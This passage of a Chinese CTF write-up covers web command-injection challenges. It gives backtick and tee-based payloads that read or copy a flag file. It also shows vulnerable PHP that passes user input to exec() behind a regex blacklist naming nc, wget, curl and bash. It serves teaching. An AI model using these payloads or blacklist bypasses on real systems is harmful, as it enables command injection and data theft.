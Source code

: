 没有写文件限制

payload:

```bash
F=`$F` ;nl flag.php>1.txt
F=`$F` ;cp flag.php 1.txt
F=`$F` ;mv flag.php 1.txt
```

## Web136

题目：

```php
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```

不能使用>，这题关键是tee命令

payload:

```
c=ls /|tee 1
c=cat /f149_15_h3r3|tee 3
```



